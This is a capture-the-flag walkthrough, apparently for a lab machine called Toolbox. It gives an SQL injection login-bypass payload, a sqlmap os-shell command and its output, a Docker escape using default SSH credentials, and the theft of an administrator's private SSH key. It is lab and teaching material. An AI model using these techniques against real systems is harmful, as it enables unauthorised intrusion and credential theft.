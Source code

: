 # Toolbox

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.171
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 06:28 EDT
Nmap scan report for 10.129.96.171
Host is up (0.0079s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

### FTP Anonymous Access

We can login to FTP using `anonymous`, and find an `.exe` file:

```
$ ftp 10.129.96.171
Connected to 10.129.96.171.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.129.96.171:kali): anonymous
331 Password required for anonymous
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50028|)
150 Opening data channel for directory listing of "/"
-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
226 Successfully transferred "/"
```

I don't know what this is for, but we'll keep this in mind for now.

### MegaLogistics

The HTTPS page shows a freight corporate page:

<figure><img src="../../../.gitbook/assets/image (1888).png" alt=""><figcaption></figcaption></figure>

I took a look at the certificate, and found another subdomain.

<figure><img src="../../../.gitbook/assets/image (2501).png" alt=""><figcaption></figcaption></figure>

Heading to `admin.megalogistic.com` reveals a login page:

<figure><img src="../../../.gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>

Sending a single `'` reveals an SQL error.

<figure><img src="../../../.gitbook/assets/image (3495).png" alt=""><figcaption></figcaption></figure>

So this is vulnerable to SQL Injection, and we can use `'OR 1=1 -- -` to bypass the login. On the admin dashboard, we see some stuff regarding credentials:

<figure><img src="../../../.gitbook/assets/image (2339).png" alt=""><figcaption></figcaption></figure>

There wasn't much within the administrator panel for us to use, so let's go back to the SQL Injection and see if we can get a webshell via `sqlmap`.&#x20;

```bash
$ sqlmap -r req --force-ssl --os-shell
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
[06:37:40] [INFO] retrieved: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102...
command standard output: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'
```

This works, and we can get a webshell. The weird part is, this is a Windows machine and I ran `id` out of instinct. This means that the website and database are probably run within a Docker container. Anyways, we can get a reverse shell via a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (2694).png" alt=""><figcaption></figcaption></figure>

I found the user flag within the `/var/lib/postgresql` folder:

<pre class="language-bash"><code class="lang-bash"><strong>$ find / -name 'user.txt' 2> /dev/null
</strong>/var/lib/postgresql/user.txt
</code></pre>

## Privilege Escalation

### Docker Escape

Earlier, we found that the administrator needs to send credentials to `tony` or something. Earlier, we found a `docker-toolbox.exe` file, and it is probably used to create this Docker.&#x20;

We can first figure out where other containers are located at via IP Address:

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 3305  bytes 322116 (314.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1839  bytes 3722336 (3.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2042  bytes 635411 (620.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2042  bytes 635411 (620.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

I downloaded the `nmap` binary onto this machine via `curl`, and found that SSH was open on 172.17.0.1.&#x20;

```
postgres@bc56e3cc55e9:/tmp$ ./nmap 172.17.0.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-05-07 04:52 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.1
Host is up (0.00038s latency).
Not shown: 1205 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
443/tcp open  https
```

While Googling for `docker-toolbox` and `ssh`, I came across this StackOverflow question:

{% embed url="https://stackoverflow.com/questions/32027403/docker-toolbox-ssh-login" %}

I tried the password and username he specified (which looked default to me) and it worked:

<figure><img src="../../../.gitbook/assets/image (1654).png" alt=""><figcaption></figcaption></figure>

On the docker, we can run `sudo su` to become `root`.

```
docker@box:~$ sudo -l                                                          
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
docker@box:~$ sudo su                                                          
root@box:/home/docker# id
uid=0(root) gid=0(root) groups=0(root)
```

### SSH Creds

Within `/`, I found a `/c` directory:

```
root@box:/# ls -la                                                             
total 244
drwxr-xr-x   17 root     root           440 May  7 04:37 .
drwxr-xr-x   17 root     root           440 May  7 04:37 ..
drwxr-xr-x    2 root     root          1420 May  7 04:34 bin
drwxr-xr-x    3 root     root            60 May  7 04:37 c
```

This is likely the Windows machine file system being mounted, and since we are `root`, we can go ahead and enumerate it.&#x20;

```
root@box:/c/Users/Administrator# ls -la                                        
total 1501
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 May  7 04:33 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
```

Within the `.ssh` file, we can find an `id_rsa` private key. Using that, we can `ssh` in as `administrator` on the main machine.

<figure><img src="../../../.gitbook/assets/image (845).png" alt=""><figcaption></figcaption></figure>

